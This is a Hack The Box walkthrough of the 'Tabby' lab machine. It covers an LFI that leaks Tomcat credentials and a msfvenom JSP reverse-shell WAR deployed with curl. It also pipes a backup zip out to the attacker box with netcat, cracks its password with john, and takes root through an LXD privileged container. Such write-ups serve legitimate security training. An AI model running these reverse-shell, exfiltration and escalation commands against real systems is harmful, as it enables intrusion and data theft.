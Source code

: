 ```yaml
---
title: HTB - Tabby Write-up
author: bigb0ss
date: 2020-11-07 19:36:00 +0800
categories: [Hack The Box, Windows, Easy]
tags: [hackthebox, tabby, lfi, tomcat, zip2john, lxd, container]
---
```


![image](/assets/img/post/htb/tabby/01_infocard.png)

This was an easy difficulty box. It was pretty easy and straight-forward box. Good learning path to:
* LFI File Enumeration
* Tomcat JSP Script Exploit
* Password Protected .zip File Abuse
* LXD Container Breakout


## Initial Recon

### Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -sC -sV 10.10.10.194

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Interesting Ports to Note

* HTTP (80/TCP) - Mega Hosting Web page. 

![image](/assets/img/post/htb/tabby/02_http.png)

* HTTP (8080/TCP) - Apache Tomcat Default Page.

![image](/assets/img/post/htb/tabby/03_8080.png)

> **NOTE**: I did perform a quick default login check against the manager login portal `/manager/html`, but no luck there. 


## Initial Foothold

### LFI (Mega Hosting Website)

By looking at the source code for the web page, we can discover the domain name `megahosting.htb`. Let’s add that into our `/etc/hosts` file. 

![image](/assets/img/post/htb/tabby/04_hosts.png)

And we can see that `http://megahosting.htb/news.php?file=` is vulnerable to LFI, and we can read arbitrary files within the system.

![image](/assets/img/post/htb/tabby/05_lfi.png)

Indeed, the `news.php` was badly written to be vulnerable to LFI. It simply takes the user supplied filename and opens it up. 

![image](/assets/img/post/htb/tabby/06_burp.png)

<b>tomcat</b>
Since we know that there is a Tomcat 9 server running on the port `8080`, we can leverage the LFI to find sensitive data such as `tomcat-users.xml`. The file was located at `/usr/share/tomcat9/etc/tomcat-users.xml` (The file wasn’t in a typical location, so I had to some trial-and-error and bruteforcing.) Within the file, we can see the credentials for the Tomcat Manager console.

```console
User: tomcat
Pass: $3cureP4s5w0rd123!
```

![image](/assets/img/post/htb/tabby/07_burp.png)

Although we have the right creds, when we try to access the `/manager/html` page, we get a 403 Access Denied.

![image](/assets/img/post/htb/tabby/08_accessdeni.png)

However, we can still deploy the `.war` file via `curl`. First, let’s make a reverse shell payload with `msfvenom`:

```console
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f war > bigb0ss.war
```

Then, using `curl`, deploy the payload:

```console
$ curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file bigb0ss.war 'http://10.10.10.194:8080/manager/text/deploy?path=/bigb0ss'

OK - Deployed application at context path [/bigb0ss]
```

Once deployed, by accessing the URL on a browser, we can trigger the payload to call back to our listener.

![image](/assets/img/post/htb/tabby/09_rce.png)


## Privilege Escalation

### tomcat —> ash

Further enumeration found that there is a directory called `/var/www/html/files` which is owned by the user `ash`.

![image](/assets/img/post/htb/tabby/10_ash.png)

Within the directory, there is an interesting `.zip` file.

![image](/assets/img/post/htb/tabby/11_ash.png)

And using the following `netcat` commands, we can download the `.zip` file to our Kali box:

```console
# Kali Box
$ nc -lvnp 80 > backup.zip

# Tabby Box
$ nc 10.10.14.3 80 < 16162020_backup.zip
```

![image](/assets/img/post/htb/tabby/12_ash.png)

<b>Zip Password Cracking</b>
So, the `.zip` file was protected with a password.

![image](/assets/img/post/htb/tabby/13_ash.png)

We can use `zip2john` and `john` to potentially crack the password. 

```console
# zip2john
$ zip2john backup.zip > bakcup-prep.zip

# John
$ john --wordlist=/usr/share/wordlists/rockyou.txt bakcup-prep.zip
```

And it cracked the password as `admin@it`

![image](/assets/img/post/htb/tabby/14_ash.png)

<b>user.txt</b>

The recovered password was indeed valid to unzip the file; however, there was nothing. Instead, that was a correct password for the `ash` user. We can now login as `ash` and read the `user.txt` flag.

![image](/assets/img/post/htb/tabby/15_ash.png)


### ash —> root (LXD Privilege Escalation)

From the above image, we can see that `ash` is member of the `LXD` group. It is a Linux Daemon (LXD) that is a lightweight container hypervisor. And there is a known privilege escalation path for a local user that is part of the `LXD` group to gain `root` access on the system. More details about the attack can be found [here] (https://www.hackingarticles.in/lxd-privilege-escalation/).

So the attack contains 2 step processes:

On the Kali Box:

```console
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Once it’s built, we will see the `.tar.gz` file.

![image](/assets/img/post/htb/tabby/16.png)

And let’s move the file to the Tabby box:

![image](/assets/img/post/htb/tabby/17.png)

![image](/assets/img/post/htb/tabby/18.png)

On the Tabby Box:

```console
# Initiating the LXD (*Answer things for default setting)
$ lxd init

# Import Image
$ lxc image import ./alpine-v3.12-x86_64-20201030_0034.tar.gz --alias bigb0ss

$ lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| bigb0ss | c57d8b79d13e | no     | alpine v3.12 (20201030_00:34) | x86_64       | CONTAINER | 3.07MB | Oct 30, 2020 at 4:58am (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+

$ lxc init bigb0ss priv -c security.privileged=true
$ lxc config device add priv mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start priv
```

Once we started the `priv`, then, we can run the following command to escalate our privilege to `root` and read the `root.txt` flag.

```console
$ lxc exec priv /bin/sh

~ # ^[[51;5Rid
id
uid=0(root) gid=0(root)
~ # ^[[51;5Rcat /mnt/root/root/root.txt
cat /mnt/root/root/root.txt
b0d<REDACTED>d7c
```

Thanks for reading! 
